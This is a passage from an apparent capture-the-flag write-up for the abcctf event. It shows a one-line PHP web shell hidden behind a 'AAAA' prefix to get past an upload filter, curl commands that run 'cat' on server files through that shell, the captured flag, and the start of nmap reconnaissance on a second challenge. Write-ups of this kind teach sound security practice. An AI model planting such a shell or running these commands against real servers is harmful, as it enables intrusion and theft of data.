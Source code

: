 ```payload:AAAA<?php system($_GET[‘cmd’]); ?>```

![image](https://user-images.githubusercontent.com/67879936/222443911-eff89710-f8c9-4e28-9c5e-4b9bc0031ec0.png)

Now, lets try to read the flag. After searching for a while I didn’t find anything, then I recalled that during our enumeration we found a /upload.php file. Then, I went ahead to check the content of the file

url:```http://185.203.119.220:8001/uploads/abeg.php?cmd=cat /var/www/html/upload.php```

![image](https://user-images.githubusercontent.com/67879936/222444041-a5a7c8e7-8841-4843-b79c-dbee8f965283.png)

oops, didn’t see anything that looks like a flag here. After a while, my teammate told me to use curl to read the file. I was like “wow, so truee”. Then I went ahead to use curl to read the content of upload.php.

command:```curl http://185.203.119.220:8001/uploads/abeg.php?cmd=cat%20/var/www/html/upload.php```

![image](https://user-images.githubusercontent.com/67879936/222444251-be5631b2-a403-4115-81b7-3925915b5468.png)

Boom, we got the flag hehe.

Flag: ```abcctf{UP104D_F0rM_N07_7H47_53CUr3}```





<h2>Method Linux -- 1000 Point</h2>

![image](https://user-images.githubusercontent.com/67879936/222445231-58508498-f7b2-495e-ba7c-9f1b240b375e.png)

<h2>Recon</h2>

<h3>PortScanning</h3>

>command:sudo nmap -A 185.203.119.220 -v -p8003 -T4

![image](https://user-images.githubusercontent.com/67879936/222445701-8decf06e-1afe-4be8-a292-41def48cf62e.png)


<h2>Enumeration</h2>

Lets go to the webpage to see what's there

![image](https://user-images.githubusercontent.com/67879936/222447390-24ae72c2-6f17-426d-b944-4b53b4bac4e9.png)

From the above screenshot we can see that we have http apache service running on that port

Let’s go ahead and view the source page of this webpage for hidden information.

>Note:Always go over source pages because the source page might contain some vital information

![image](https://user-images.githubusercontent.com/67879936/222447561-14ffe529-40dd-4e83-bb28-bb073b8f6bfc.png)

Alright, Muzec actually left something in the source code, ```abcctf should help you in your journey```. At first I was like it’s probably a rabbit hole, so I continued with my enumeration.
```